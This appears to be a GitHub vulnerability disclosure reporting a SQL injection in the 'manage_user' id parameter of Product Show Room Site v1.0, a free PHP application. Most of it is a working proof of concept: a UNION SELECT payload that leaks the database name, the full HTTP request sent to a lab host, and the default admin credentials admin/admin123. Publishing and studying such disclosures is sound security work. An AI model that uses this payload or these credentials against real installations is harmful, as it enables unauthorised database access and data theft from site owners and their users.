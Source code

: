 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=user/manage_user&id=

Vulnerability location: /psrs/admin/?page=user/manage_user&id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /psrs/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171826900-68d58736-8d48-499e-807e-bea9cd641cc7.png)

![image](https://user-images.githubusercontent.com/54017627/171827106-ef6d8840-ed6b-4788-a0a8-d5913e902168.png)
